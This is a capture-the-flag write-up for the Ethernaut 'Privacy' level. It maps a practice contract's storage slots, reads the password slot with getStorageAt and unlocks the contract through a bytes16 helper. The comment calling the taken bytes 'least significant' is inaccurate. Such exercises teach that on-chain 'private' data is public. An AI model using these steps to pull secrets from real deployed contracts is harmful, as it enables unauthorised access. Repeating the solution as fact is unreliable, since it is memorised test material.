 Challenge solved ✅

## Privacy

### Challenge description

The creator of this contract was careful enough to protect the sensitive areas of its storage.
Unlock this contract to beat the level.

### Analysis

![Privacy storage](images/ff541ef577bf0b185d9bd2266bc82b7cef5b80e9c30195d89a0ba04fb1f9e21e.png)  

As we said before, every variable in the storage can be accessed all we have to do is find which slot it's residing in. Same applies here.

We got the following:

```js
// [0] bool locked
// [1] uint256 ID
// [2]      awkwardness | denomination | flattening
// arrays start always in a new slot 
// [3] bytes32 data[0]
// [4] bytes32 data[1]
// [5] bytes32 data[2]
```

### Exploit

We know the position of the password . We can unlock the contract. 

```js
await contract.getStorageAt(INSTANCE_ADDRESS,5);
/// We can manually extract the least significant 16 bytes or simply write a util contract like below
```

```js
contract Utils { 
    function get16Bytes(bytes32 value) public returns (bytes16) {
        return bytes16(value);
    }
}
```

```js
await contract.unlock(Returned_Value);
```
